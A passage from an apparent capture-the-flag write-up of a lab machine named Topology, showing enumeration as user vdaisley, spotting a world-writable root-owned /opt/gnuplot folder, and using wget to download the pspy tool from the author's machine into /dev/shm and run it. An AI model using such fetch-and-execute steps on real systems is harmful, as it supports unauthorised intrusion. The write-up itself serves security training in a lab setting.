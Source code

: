 #### File System

vdaisley's home directory is very empty:



    vdaisley@topology:~$ ls -a
    .  ..  .bash_history  .bash_logout  .bashrc  .cache  .config  .profile  user.txt



There are no other directories in `/home`.

`/opt` has an interesting folder, but vdaisley can't access it:



    vdaisley@topology:/opt$ ls 
    gnuplot
    vdaisley@topology:/opt$ ls gnuplot/
    ls: cannot open directory 'gnuplot/': Permission denied



However, vdaisley can write in this directory:



    vdaisley@topology:/opt$ ls -ld gnuplot/
    drwx-wx-wx 2 root root 4096 Sep  7 13:49 gnuplot/



#### Processes

`ps auxww` doesn't show anything that jumps out as super interesting to
me. I'll grab a copy of [pspy](https://github.com/DominicBreuker/pspy)
from GitHub, host it on my VM in a web-accessible directory, and upload
it to Topology with `wget`:



    vdaisley@topology:/dev/shm$ wget 10.10.14.6/pspy64
    --2023-09-07 13:45:22--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3104768 (3.0M) [application/octet-stream]
    Saving to: ‘pspy64’

    pspy64                                               100%[==================================>]   2.96M  3.67MB/s    in 0.8s    

    2023-09-07 13:45:23 (3.67 MB/s) - ‘pspy64’ saved [3104768/3104768]



I'll set it as executable and run it:



    vdaisley@topology:/dev/shm$ chmod +x pspy64 
    vdaisley@topology:/dev/shm$ ./pspy64
    ...[snip]...


